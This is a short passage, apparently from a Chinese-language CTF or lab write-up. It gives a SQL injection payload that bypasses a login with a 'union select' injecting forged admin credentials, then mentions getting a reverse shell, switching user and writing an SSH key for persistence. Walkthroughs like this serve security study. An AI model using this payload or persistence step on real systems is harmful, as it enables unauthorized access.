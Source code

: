 因此可以构造**payload**

```
username:  ' union select 1,'he110wor1d_admin','pass
password:  pass
```

![](./images/image-197.png)

反弹**shell**之后切换用户即可，然后写入**ssh**密钥。

![](./images/image-198.png)
